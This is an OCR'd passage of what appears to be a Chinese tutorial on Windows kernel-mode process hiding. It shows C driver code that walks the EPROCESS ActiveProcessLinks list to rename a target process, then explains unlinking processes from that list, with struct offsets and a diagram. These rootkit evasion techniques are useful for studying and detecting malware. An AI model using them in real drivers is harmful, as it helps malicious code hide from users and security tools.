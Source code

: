 ```c
    len = strlen(pSetImageName->bImageName);
    pActiveProcessLinks =
        ((PCHAR)pEprocess + WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);

    for (PLIST_ENTRY64 pBeginNode = pActiveProcessLinks, pCurNode = pBeginNode;
         pCurNode->Flink != pBeginNode;
         pCurNode = pCurNode->Flink) {
        pCurProcess =
            (PEPROCESS)((PCHAR)pCurNode -
                        WIN10_21H1_EPROCESS_TO_ACTIVEPROCESSLINKS_OFFSET);
        uProcessId = PsGetProcessId(pCurProcess);
        if (uProcessId == pSetImageName->pid) {
            // copy new string to cover the old string

            kprintf("[+ Hide Process R0] found the process pid\r\n", uProcessId);
            pOldImageName = PsGetProcessImageFileName(pCurProcess);
            RtlCopyMemory(pOldImageName, pSetImageName->bImageName, len);

            return STATUS_SUCCESS;
        }
    }

    return STATUS_UNSUCCESSFUL;
}
```

### R0消除进程

这里主要是**R0的断链**

EPROCESS是进程在内核中的结构体，一个进程一个EPROCESS，`EPROCESS中->ActiveProcessLinks`值是一个双向链表，指向的是其他进程。

```c
copy
//0xa40 bytes (sizeof)
struct _EPROCESS
{
    struct _KPROCESS Pcb;                                                   //0x0
    struct _EX_PUSH_LOCK ProcessLock;                                       //0x438
    VOID* UniqueProcessId;                                                  //0x440
    struct _LIST_ENTRY ActiveProcessLinks;                                  //0x448
    struct _EX_RUNDOWN_REF RundownProtect;                                  //0x458
    ...
}
```

```mer
					_eprocess1                   _eprocess2
					.........                    .........
					.........                    .........
					ActiveProcessLinks -> {      ActiveProcessLinks -> {
------------------>	    Flink ------------------>    Flink ------------------>
<------------------   	Blink <------------------    Blink <------------------
					}                            }
```
